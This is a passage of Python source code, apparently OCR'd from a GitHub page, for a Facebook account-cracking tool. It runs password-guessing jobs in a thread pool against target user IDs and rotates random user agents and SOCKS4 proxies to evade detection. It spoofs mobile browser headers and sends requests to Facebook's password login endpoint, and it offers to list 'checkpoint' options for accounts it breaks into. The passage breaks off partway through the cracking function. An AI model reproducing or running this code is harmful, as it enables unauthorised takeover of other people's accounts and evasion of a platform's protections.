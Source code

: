 			elif 'touch' in method:

				pool.submit(cracktouch,idf,pwv)

			elif 'mbasic' in method:

				pool.submit(crackmbasic,idf,pwv)

			else:

				pool.submit(crackmbasic,idf,pwv)

	print('')

	tanya = '# WANT TO SHOW CHECKPOINT OPTIONS ? (y/t)'

	sol().print(mark(tanya, style='green'))

	woi = input(x+'[•] Choose : ')

	if woi in ['y','Y']:

		cek_opsi()

	else:

		exit()



# CRACKER

def crack(idf,pwv):

	global loop,ok

	sys.stdout.write(f"\r [●] {P}[{P}{loop}{P}/{P}{len(id)}{P}] {P}[{H}{ok}{P}] {P}[{M}{'{:.0%}'.format(loop/float(len(id)))}{P}]  "),

	sys.stdout.flush()

	ua = random.choice(ugen)

	ua2 = random.choice(ugen2)

	ses = requests.Session()

	for pw in pwv:

		try:

			nip=random.choice(prox)

			proxs= {'http': 'socks4://'+nip}

			ses.headers.update({'Host': 'm.facebook.com','cache-control': 'max-age=0','sec-ch-ua-mobile': '?1','upgrade-insecure-requests': '1','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'})

			p = ses.get('https://m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&next=https%3A%2F%2Fm.facebook.com%2Fv2.3%2Fdialog%2Foauth%3Fapp_id%3D124024574287414%26cbt%3D1651658200978%26e2e%3D%257B%2522init%2522%253A1651658200978%257D%26sso%3Dchrome_custom_tab%26scope%3Demail%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D%26redirect_uri%3Dfbconnect%253A%252F%252Fcct.com.instathunder.app%26response_type%3Dtoken%252Csigned_request%252Cgraph_domain%252Cgranted_scopes%26return_scopes%3Dtrue%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3D68f15bae-23f8-463c-8660-5cf1226d97f6%26tp%3Dunspecified&cancel_url=fbconnect%3A%2F%2Fcct.com.instathunder.app%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr')
